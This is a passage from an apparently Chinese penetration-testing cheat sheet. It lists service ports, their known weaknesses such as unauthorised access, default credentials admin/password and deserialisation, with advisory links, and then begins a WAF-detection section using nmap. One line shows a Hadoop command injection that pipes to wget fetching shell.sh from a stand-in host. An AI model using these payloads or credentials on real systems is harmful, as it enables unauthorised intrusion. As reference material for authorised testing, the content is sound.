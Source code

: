 > CVE-2015-1427
> http://www.anquan.us/static/drops/papers-5142.html
> CVE-2018-17246
> https://www.seebug.org/vuldb/ssvid-97730
> 参考
> https://www.seebug.org/search/?keywords=elasticsearch

**9000 / fcgi**

> https://paper.seebug.org/289/

**9043 / WebSphere**

> Websphere8.5
> https://localhost:9043/ibm/console/logon.jsp
> Websphere6-7
> http://localhost:9043/ibm/console
> 后台未授权，登录后可部署WAR包
> SOAP服务有反序列化
> 弱口令：admin / password

**11211 / memcache**

> 未授权
> UDP反射
> https://shockerli.net/post/memcached-udp-reflection-attack-bug/

**27017,27018 / Mongodb**

> 未授权
> 注入
> https://www.anquanke.com/post/id/83763
> phpMoAdmin RCE
> https://www.aqniu.com/threat-alert/6978.html

**50000 / SAP**

> SAP命令执行
> https://www.secpulse.com/archives/20204.html

**50070,50030 / hadoop**

> 未授权
> https://www.freebuf.com/vuls/173638.html
> 命令执行
> host:50060/pstack?pid=123|wget http://somehost/shell.sh
> https://www.seebug.org/search/?keywords=hadoop
> 其他
> http://www.91ri.org/15441.html

#### 1.3 WAF 及 bypass

探测WAF。

**Nmap**探测WAF有两种脚本，一种是`http-waf-detect`，一种是`http-waf-fingerprint`。

```
nmap -p port --script=http-waf-detect ip

```
